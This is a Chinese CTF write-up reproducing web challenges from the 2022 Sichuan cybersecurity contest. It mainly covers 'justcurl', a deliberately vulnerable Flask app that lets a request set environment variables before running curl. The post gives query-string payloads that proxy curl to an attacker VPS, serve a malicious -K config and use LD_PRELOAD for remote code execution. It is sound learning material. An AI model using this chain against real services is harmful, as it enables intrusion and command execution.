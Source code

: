 # 四川省网安技能大赛2022-复现学习


<!--more-->
<!-- # 四川省网安技能大赛2022-复现学习 -->


## [WEB] requests

签到题，爆破一下 `md5` 然后读取文件路径 `rce` 就行

## [WEB] justcurl

```python
from flask import render_template, request, Flask
import os

app = Flask(__name__)

def check(s):
    if 'LD' in s  or 'BASH' in s or 'ENV' in s or 'PS' in s:
        return False
    return True
@ app.route('/')
@ app.route('/index')
def index():
    try:
        choose = request.args.get('choose')
    except:
        choose = ""
    try:
        key = request.args.get('key')
    except:
        key = ""
    try:
        value = request.args.get('value').upper()
    except:
        value = ""

    if value:
        if check(value):
            os.environ[key] = value
    if choose == "o":
        cmd = "curl http://127.0.0.1:5000/result -o options.txt"
    elif choose == "K":
        cmd = "curl http://127.0.0.1:5000/result -K options.txt"
    else:
        cmd = "curl http://127.0.0.1:5000/result"
    try:
        res = os.popen(cmd).read()
        return "your cmd is : " + cmd + "  \n and your result id :" + res
    except:
        return "error"


@ app.route('/result')
def logout():
    code = "no result"
    return render_template("index.html",code=code)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)

```

关注 `os.environ[key] = value` 发现可以控制环境变量，可以利用的大概有

- LD_PRELOAD
- ALL_PROXY
- HTTP_PROXY

`LD_PRELOAD` 是常见的 `disabled_function` 绕过方式，而设置 `PROXY` 可以让服务器将请求发送到我们自己的 `VPS` 

服务器需要收到请求之后返回 `curl` 配置文件，比赛的时候没看 [文档](https://curl.se/docs/manpage.html#-K) 不会写:sob:

```
url = "https://curl.se/docs/"

 # --- Example file ---
 # this is a comment
 url = "example.com"
 output = "curlhere.html"
 user-agent = "superagent/1.0"
 # and fetch another URL too
 url = "example.com/docs/manpage.html"
 -O
 referer = "http://nowhereatall.example.com/"
 # --- End of example file ---
```

然后这里是 [Hurrison's Blog](https://hurrison.com/posts/sichuan2022/#web-justcurl) 的 wp 和例子

能够对 `curl` 配置文件可控之后，我们只需要利用 `LD_PRELOAD` 环境变量漏洞就可达成 `rce` 。

```http
?key=http_proxy&value=http://<ip>:80&choose=K
?key=LD_PRELOAD&value=./LIB.SO
?key=CMD&value=ls%20/
```

 自己搭环境复现的时候会报错 `ERROR: ld.so: object LD_PRELOAD cannot be preloaded: ignored` ，应该是没有找到文件的原因，尝试写绝对路径

## [WEB] simplephp

看起来像 sql 注入，fuzz 之后感觉禁用有些多，等 wp 了


